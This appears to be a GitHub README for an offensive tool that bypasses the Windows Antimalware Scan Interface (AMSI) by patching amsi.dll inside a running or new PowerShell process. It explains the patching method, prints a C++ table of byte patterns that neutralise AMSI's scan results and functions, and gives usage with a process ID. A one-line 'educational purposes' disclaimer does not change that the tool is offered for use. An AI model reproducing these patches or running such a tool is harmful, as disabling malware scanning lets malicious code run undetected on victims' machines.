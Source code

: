 # 🛡️ EByte-Pattern-AmsiPatch 🛡️

EByte-Pattern-AmsiPatch bypasses AMSI by directly patching the AMSI.dll module **in memory** of a target process. It does **not** modify any files on disk.

### 🧬 How It Works

1. **Target Selection**: Takes an existing process ID or creates a new PowerShell process
2. **Memory Patching**: Modifies AMSI.dll code in the target process memory:
   - Changes result comparison values (`cmp eax,0/1` → `cmp eax,-1`)
   - Converts conditional jumps to unconditional jumps
   - Replaces function prologues with immediate returns (`xor eax,eax; ret`)

### 💻 Technical Details

```cpp
// Key patterns that neutralize AMSI functionality
const PatternInfo AMSI_PATTERNS[] = {
    { "AMSI_RESULT_CLEAN", { 0x83, 0xF8, 0x00 }, { 0x83, 0xF8, 0xFF }, 3 },
    { "AMSI_RESULT_DETECTED", { 0x83, 0xF8, 0x01 }, { 0x83, 0xF8, 0xFF }, 3 },
    { "AMSI_TEST_JZ", { 0x85, 0xC0, 0x74 }, { 0x85, 0xC0, 0xEB }, 3 },
    { "AMSI_SCAN_FUNC_START", { 0x48, 0x89, 0x5C, 0x24, 0x08 }, { 0x31, 0xC0, 0xC3, 0x90, 0x90 }, 5 }
    // ... and wayyy more patterns
};
```

- **In-Memory Only**
- **Pattern-Based**: No LoadLibrary, or GetProcAddress calls

### ⚡ Usage

- Run without parameters to create and patch a new PowerShell process
- Run with a PID to patch AMSI in an existing process (powershell for example): `EByte-Pattern-AmsiPatch.exe $pid`


## ⚠️ Legal Disclaimer

For educational purposes only. Using this to bypass security mechanisms may violate system policies, terms of service, or applicable laws.

---
# PoC ⭐
![image](https://github.com/user-attachments/assets/ce4aaa03-82b8-44f8-ba35-efeb953f3b34)

---

**Copyright © 2025 EvilByteCode. All Rights Reserved.**
